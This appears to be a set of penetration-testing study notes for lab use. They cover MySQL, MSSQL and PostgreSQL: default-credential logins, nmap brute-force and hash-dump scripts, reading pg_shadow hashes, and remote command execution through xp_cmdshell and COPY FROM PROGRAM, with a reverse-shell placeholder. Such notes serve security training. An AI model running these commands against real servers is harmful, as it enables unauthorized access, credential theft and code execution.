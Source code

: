 # MySQL
```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306 #此处-p<passwd>间无空格！
select system_user(); # database(),@@version();
\! sh #并不能使用mysql用户
```
[MySQL_CheatSheets](https://devhints.io/mysql)
# MSSQL
```bash
#master、tempdb、model和msdb -> default dbs
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth -port <port>

SELECT @@version;
SELECT name FROM sys.databases; 

SELECT * FROM offsec.information_schema.tables; 
select * from offsec.dbo.users;
```
## Enumeration/BruteForce
```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
#同一用户名错误猜测多次可能会被封禁

msf> use auxiliary/scanner/mssql/mssql_ping
```
## RCE
```bash
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
# RCE ！ 
EXECUTE xp_cmdshell 'whoami';
```
# PostgreSQL
```bash
# Default creds: postgres:postgres
psql -U <username>
psql -h <host> -p <port> -U <username> -W <password> <database>

\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles
SELECT schema_name,schema_owner FROM information_schema.schemata;
SELECT usename, passwd from pg_shadow;
```
## RCE
Since version 9.3, only super users and member of the group 
pg_execute_server_program
 can use copy for RCE
 [squid22](https://github.com/squid22/PostgreSQL_RCE.git)
```bash
## RCE
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\';
# tie up
git clone https://github.com/squid22/PostgreSQL_RCE.git
```
